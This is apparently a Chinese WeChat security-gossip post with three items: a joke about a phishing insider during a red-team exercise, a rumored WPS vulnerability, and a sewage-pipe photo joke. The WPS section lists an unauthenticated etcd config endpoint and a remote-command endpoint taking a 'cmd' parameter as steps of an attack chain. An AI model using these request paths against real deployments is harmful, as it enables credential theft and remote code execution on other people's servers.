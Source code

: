 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247485014&idx=1&sn=b1a1d176fc53260b695a2462ac585079

#  【吃瓜】内推"红队"当内鬼 | 网传wps漏洞为Nday | HV奖励吃大粪  
原创 LeePlus  表哥带我   2025-07-17 08:24  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/pxKqYxJWy7MHqrAcwIGH5K7UvO9SFI4EkaH4ooCVsu7cll9674CjgclKxGIKcM5MNF5s7vnK2NjZ6tliaQ0FWNg/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
## 家里养了鬼知不知道  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9lKy2uTZOicNDUPeNSDcTE6OFxvPxvEMFkcWSBHbVSY0NPzx6nHNAWVw/640?wx_fmt=png&from=appmsg "")  
  
甲方："家里养了鬼知不知道？昨天早上你内推的人发了一份钓鱼简历，HR把这份钓鱼简历点开了，应急会议开到半夜，然后今天刚被你招进来的防守人员又点了钓鱼邮件，这内鬼是谁啊，不是你难道是我？？还是他啊？！！"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9f2OTSz3kLnfErBaHn8jMYCQ242wHhuBBribcgXkpDLzpjibnD9tMonzg/640?wx_fmt=png&from=appmsg "")  
  
  
## 网传WPS漏洞为Nday  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9QcWozEFPrhmNq2Syb4bJ56GpMfzfcYVRQjiccS4fUkB39icKuM7g9Bibg/640?wx_fmt=jpeg "")  
  
1、未授权访问  

```
/open/v6/api/etcd/operate?key=/config/storage&method=get

```

  
2、获取AKSK后使用脚本添加kubelet 路由映射，但需要获取TOKEN  
  
3、向对应POD发起通信后实现RCE  

```
/open/wps/run/{namespace}/{podname}/node-exporter?cmd={url_encode_command} 

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg94UhUDqpKzye9WP0fNHEdHQ9iaiaMrRFkUWj9X0oVxv8CByDkZbh78a3w/640?wx_fmt=png&from=appmsg "")  
  
  
## HV奖励吃大粪  
  
  
某地区排污阀接到自来水管网  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9PrGEex9OzoCzeTTgXJzX19qvOqtQdQuicbZYex9CKict7yFYVjZq8wag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg9yYELf9PchibEmPJ5SV0MbiavkDR7Da500g0ZMAMO0StrglcD7l0MgQicA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pxKqYxJWy7OJ6h8CtGVXoARhibeUyoDg93GNQugGB8lGfHD2RFvFH45GJ4AKmwoN9XqfhT36NhSzmZHpUDicNnbQ/640?wx_fmt=png&from=appmsg "")  
  
提醒:本文仅供  
娱乐、安全研究  
如有雷同纯属巧合  
  
  
往期推荐  
  
  
  
[【吃瓜】微信惊现逆天Xss](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484955&idx=1&sn=6ab81a2fb259c19f864e694b22133c18&scene=21#wechat_redirect)  
  
  
[【吃瓜】如何看待hvv睡觉被退场](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484844&idx=1&sn=b21845d0ac0fe737a5194542fab0dd09&scene=21#wechat_redirect)  
  
  
[【吃瓜】微信逆天的Bug2.0 神代码合集](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247484994&idx=1&sn=a95aa7f0cd2cb5214bb842f7fdd4e2a3&scene=21#wechat_redirect)  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/pxKqYxJWy7NibiavMhpjsxcYQ80mFzicSv5Nia84ibfF6Nm33h6yqRvZpwibN3o1ZWnwh9XE4IWt1fiblrGibd6ap7qgWA/640?wx_fmt=jpeg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**扫码关注我们**  
  
    微信公众号：表哥带我  
  
    本文供稿：  
LeePlus  
  
